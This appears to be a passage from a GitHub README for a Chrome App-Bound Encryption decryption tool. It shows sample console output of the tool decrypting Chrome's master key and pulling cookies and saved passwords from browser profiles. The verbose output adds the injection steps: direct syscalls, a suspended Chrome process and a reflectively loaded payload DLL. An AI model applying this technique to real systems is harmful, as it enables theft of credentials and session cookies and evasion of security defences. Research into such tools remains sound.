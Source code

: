 ```bash
[*] Attempting to decrypt master key via Chrome's COM server...
[+] Decrypted AES Key: 3fa14dc988a34c85bdb872159b739634cb7e56f8e34449c1494297b9b629d094
[*] Discovering browser profiles in: C:\Users\ah\AppData\Local\Google\Chrome\User Data
[+] Found 2 profile(s).
[*] Processing profile: Default
     [*] 375 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\cookies.json
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\passwords.json
[*] Processing profile: Profile 1
     [*] 111 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\cookies.json
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\passwords.json
[*] All profiles processed. Decryption process finished.

[+] Payload signaled completion or pipe interaction ended.
[*] Chrome terminated by injector.
```

#### Verbose

```bash
PS> .\chrome_inject.exe --verbose chrome
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Direct Syscall-Based Reflective Hollowing   |
|  x64 & ARM64 | v0.14.0 by @xaitax            |
------------------------------------------------

[#] [Syscalls] Found and sorted 489 Zw* functions.
[#] [Syscalls] Successfully initialized all direct syscall stubs.
[#] [Syscalls]   - AllocateVirtualMemory (SSN: 24) -> Gadget: 0x7fff58951190
[#] [Syscalls]   - CreateThreadEx (SSN: 201) -> Gadget: 0x7fff58951cd0
[#] [Syscalls]   - FlushInstructionCache (SSN: 241) -> Gadget: 0x7fff58951f50
[#] [Syscalls]   - FreeVirtualMemory (SSN: 30) -> Gadget: 0x7fff589511f0
[#] [Syscalls]   - GetContextThread (SSN: 251) -> Gadget: 0x7fff58951ff0
[#] [Syscalls]   - GetNextProcess (SSN: 256) -> Gadget: 0x7fff58952040
[#] [Syscalls]   - OpenProcess (SSN: 38) -> Gadget: 0x7fff58951280
[#] [Syscalls]   - ProtectVirtualMemory (SSN: 80) -> Gadget: 0x7fff58951540
[#] [Syscalls]   - QueryInformationProcess (SSN: 25) -> Gadget: 0x7fff589511a0
[#] [Syscalls]   - ReadVirtualMemory (SSN: 63) -> Gadget: 0x7fff58951430
[#] [Syscalls]   - ResumeThread (SSN: 82) -> Gadget: 0x7fff58951560
[#] [Syscalls]   - SetContextThread (SSN: 410) -> Gadget: 0x7fff589529e0
[#] [Syscalls]   - TerminateProcess (SSN: 44) -> Gadget: 0x7fff58951300
[#] [Syscalls]   - UnmapViewOfSection (SSN: 42) -> Gadget: 0x7fff589512d0
[#] [Syscalls]   - WriteVirtualMemory (SSN: 58) -> Gadget: 0x7fff589513e0
[*] Scanning for and terminating browser network services...
[+] Found and terminated network service PID: 22652
[*] Termination sweep complete. Waiting for file locks to fully release.
[*] Creating suspended Chrome process.
[#] Target executable path: C:\Program Files\Google\Chrome\Application\chrome.exe
[+] Created suspended process PID: 23924
[#] Architecture match: Injector=ARM64, Target=ARM64
[#] Named pipe server created: \\.\pipe\f57cd2b6-1d97-4e3b-a4f1-72f94715cd5a
[#] Loading and decrypting payload DLL.
[#] Parsing payload PE headers for ReflectiveLoader.
[#] ReflectiveLoader found at file offset: 0x13fb8
[#] Allocating memory for payload in target process.
[#] Payload memory allocated at: 0x247e4170000
[#] Writing payload to target process.
[#] Changing payload memory protection to executable.
[#] Passing pipe name parameter to target.
[#] Creating new thread in target to execute ReflectiveLoader.
```